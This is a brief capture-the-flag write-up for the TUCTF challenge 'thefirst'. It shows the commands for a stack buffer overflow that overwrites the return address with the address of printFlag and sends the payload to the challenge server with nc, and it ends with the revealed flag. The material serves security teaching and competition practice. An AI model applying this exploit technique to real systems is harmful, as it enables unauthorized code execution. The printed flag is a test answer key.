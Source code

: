 #### Challenge:

Get warmed up, we'll be here for a while. [thefirst](./thefirst ":ignore")

`nc chal.tuctf.com 30508`

---

#### Solution:

- analyzed binary and located function that can be used to access flag `printFlag`

```bash
readelf -s ./thefirst | grep -i flag  # 51: 080491f6    41 FUNC    GLOBAL DEFAULT   15 printFlag
python -c 'print "A"*25' | ./thefirst # find the right offset
dmesg | tail # [106727.176378] thefirst[14603]: segfault at 0 ip 00000000f7560041 sp 00000000ff9d76c0
python -c 'import struct; print "A"*24 + struct.pack("<I",0x080491f6 )' | nc chal.tuctf.com 30508
```

---

<details><summary>FLAG:</summary>

```
TUCTF{0n3_d0wn..._50_m4ny_70_60}
```

</details>
<br/>
